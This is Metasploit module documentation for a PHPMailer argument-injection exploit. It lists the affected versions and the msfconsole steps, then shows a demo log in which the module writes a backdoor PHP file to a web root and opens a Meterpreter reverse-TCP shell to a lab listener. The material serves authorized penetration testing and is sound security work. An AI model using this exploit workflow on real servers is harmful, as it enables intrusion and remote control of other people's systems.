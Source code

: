 ## Vulnerable Application

PHPMailer versions up to and including [5.2.20](https://github.com/PHPMailer/PHPMailer/archive/v5.2.20.tar.gz) are affected by a vulnerability which can be leveraged by an attacker to
write a file with partially controlled contents to an arbitrary location through injection of arguments that are passed
to the sendmail binary. This module writes a payload to the web root of the webserver before then executing it with an
HTTP request. The user running PHPMailer must have write access to the specified WEB_ROOT directory and successful
exploitation can take a few minutes.

[5.1.18](https://github.com/PHPMailer/PHPMailer/archive/v5.2.18.tar.gz) is also targetted.

## Verification Steps

  1. Install a vulnerable PHPMailer
  2. Start msfconsole
  3. `use exploit/multi/http/phpmailer_arg_injection`
  4.  Set the TARGETURI and WEB_ROOT options as applicable
  5. `exploit`
  6.  Verify the module yields a PHP meterpreter session in < 5 minutes
  7.  Verify the malicious PHP file was automatically removed

## Scenarios

  Demo taken directly from [PR7768](https://github.com/rapid7/metasploit-framework/pull/7768)

```
msf (S:0 J:0) exploit(php_mailer) > options 

Module options (exploit/linux/http/php_mailer):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.90.134   yes       The target address
   RPORT      8080             yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Path to the application root
   VERSION    <=5.2.18         yes       The version of PHPMailer (Accepted: <=5.2.18, 5.2.20)
   VHOST                       no        HTTP server virtual host
   WEB_ROOT   /www             yes       Path to the web root


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.90.134   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



msf (S:0 J:0) exploit(php_mailer) > rexploit
[*] Reloading module...

[*] [2016.12.29-17:03:47] Started reverse TCP handler on 192.168.90.134:4444 
[*] [2016.12.29-17:03:47] Writing the backdoor to /www/0IxI5AFB.php
[*] [2016.12.29-17:04:07] Sleeping before requesting the written file
[*] [2016.12.29-17:04:07] Waiting for up to 300 seconds to trigger the payload
[+] [2016.12.29-17:04:48] Successfully found the payload
[*] [2016.12.29-17:05:50] Sending stage (34122 bytes) to 172.17.0.2
[*] Meterpreter session 4 opened (192.168.90.134:4444 -> 172.17.0.2:47280) at 2016-12-29 17:05:50 -0500
[+] [2016.12.29-17:05:50] Deleted /www/0IxI5AFB.php
[+] [2016.12.29-17:06:10] Successfully triggered the payload


meterpreter > sysinfo
Computer    : 90f0c8e8dbe4
OS          : Linux 90f0c8e8dbe4 4.8.15-200.fc24.x86_64 #1 SMP Thu Dec 15 23:09:22 UTC 2016 x86_64
Meterpreter : php/linux

meterpreter >
```
